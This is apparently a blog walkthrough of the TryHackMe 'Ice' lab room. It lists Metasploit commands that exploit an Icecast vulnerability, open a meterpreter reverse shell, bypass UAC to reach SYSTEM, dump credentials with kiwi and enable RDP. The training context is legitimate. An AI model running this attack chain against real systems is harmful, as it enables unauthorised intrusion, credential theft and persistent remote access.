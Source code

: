 ```yaml
---
slug: ice-walkthrough
title: TryHackMe - Ice - Walkthrough
authors: bw
tags: [learning, ice, tryhackme, walkthrough]
---
```


This is a walkthrough for room: [Ice][ice-r], on [TryHackMe][thm]. This is an easy walkthrough room. Let’s get started!

# Recon
We are going to start with an `nmap` scan:

![i1](/img/thm/ice/i1.png)

We can utilize the `nmap` scan to answer the first 3 questions of the room.

# Gain Access
Let’s do some googling and look for the CVE score of the icecast vulnerability. Here is a link to the list of vulnerabilities: [Link][ice-v]. Here we find out next two answers.

Start metasploit:

```bash
msfconsole
search icecast ##(find next answer)
use 0
options
set rhosts 10.10.35.203
set lhost tun0 ##(if needed)
run
```
Wow. We got a shell! That was pretty easy. Let’s continue on!

![i2](/img/thm/ice/i2.png)

# Escalate
We get the first answer right away. Next let’s run the following for more answers:

`getuid`
`sysinfo`
**NOTE:** Normally, I would back out of this exploit, and change the payload of our meterpreter shell to x64 instead of our current x86 (we always want those to line up), but in this case I am just going to keep going.

```bash
run post/multi/recon/local_exploit_suggester
background
use exploit/windows/local/bypassuac_eventvwr
options
set sessions 1 #(Your session could be a different number)
set lhost tun0
set lport 4445 #(We already have a session on 4444)
run
getprivs
```
We now have elevated permissions! Last answer can be found from the output of the `getprivs` command.

![i3](/img/thm/ice/i3.png)

# Looting
Let’s run `ps`, where we find our next answer:

![i4](/img/thm/ice/i4.webp)

Now we can migrate to that process with `migrate -N <process_name>`

**NOTE:** We can also migrate by using the Process ID (PIC): `migrate 692`

Now when we run getuid we are: `NT AUTHORITY\SYSTEM`. WOOHOO!

```bash
load kiwi
help
creds_all
```
With that, we have completed this section! Almost done!

# Post-Exploitation
Run `help` to answer all the questions in this section.

Enable RDP: `run post/windows/manage/enable_rdp`

# Extra Credit
That’s all there is to this room! Try doing the manual exploitation on your own!

# Review
This was a really interesting walkthrough room. While it was heavily guided, I liked how it followed the process of how you would do a pentest on the machine in a way that somewhat resembles the real-world. I hope you enjoyed this walkthrough!

References
[Ice Room][ice-r] | [TryHackMe][thm] | [Icecast Vulns][ice-v]

[ice-r]: https://tryhackme.com/r/room/ice
[thm]: https://tryhackme.com
[ice-v]: https://www.cvedetails.com/vulnerability-list/vendor_id-693/product_id-1194/version_id-16877/Icecast-Icecast-2.0.1.html